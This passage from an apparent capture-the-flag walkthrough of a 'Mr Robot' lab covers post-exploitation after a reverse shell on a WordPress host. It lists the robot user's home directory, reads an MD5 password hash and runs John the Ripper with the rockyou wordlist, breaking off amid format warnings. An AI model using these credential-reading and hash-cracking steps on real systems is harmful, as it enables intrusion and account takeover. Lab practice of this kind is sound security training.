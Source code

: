 Our attack succeeded! We managed to gain a reverse shell on the target machine. Let’s see what we can do next!

## Post Exploitation

The room is almost finished; keep it up!

To start this phase, I like taking a quick look around in the `/home` directory.

```bash
(remote) daemon@ip-10-10-135-61:/opt/bitnami/apps/wordpress/htdocs/wp-admin$ cd /home/robot/
(remote) daemon@ip-10-10-135-61:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 4 root  root  4096 Jun  2 18:14 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

We found an interesting user named `robot` in his home directory. We discovered 2 interesting files: `key-2-of-3.txt` and `password.raw-md5`.

Even though we don’t have read permission on `key-2-of-3.txt`, I tried to check its content but it failed.

So I checked the other one, which seems to be an MD5 hash—the password of the user `robot`? Well, maybe :).

```bash
(remote) daemon@ip-10-10-135-61:/home/robot$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
(remote) daemon@ip-10-10-135-61:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Next, I used the tool John to crack it using the `rockyou` wordlist. At first, it gave a really messy output and didn’t manage to crack it.

```bash
echo 'c3fcd3d76192e4007dfb496cca67e13b' > hash.txt

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                 
Warning: detected hash type "LM", but the string is also recognized as "dynamic=md5($p)"
Use the "--format=dynamic=md5($p)" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "HAVAL-128-4"
Use the "--format=HAVAL-128-4" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "MD2"
Use the "--format=MD2" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "mdc2"
Use the "--format=mdc2" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "mscash"
Use the "--format=mscash" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "mscash2"
Use the "--format=mscash2" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "NT"
Use the "--format=NT" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "Raw-MD4"
Use the "--format=Raw-MD4" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "Raw-MD5"
Use the "--format=Raw-MD5" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "Raw-MD5u"
Use the "--format=Raw-MD5u" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "ripemd-128"
Use the "--format=ripemd-128" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "Snefru-128"
Use the "--format=Snefru-128" option to force loading these as that type instead
```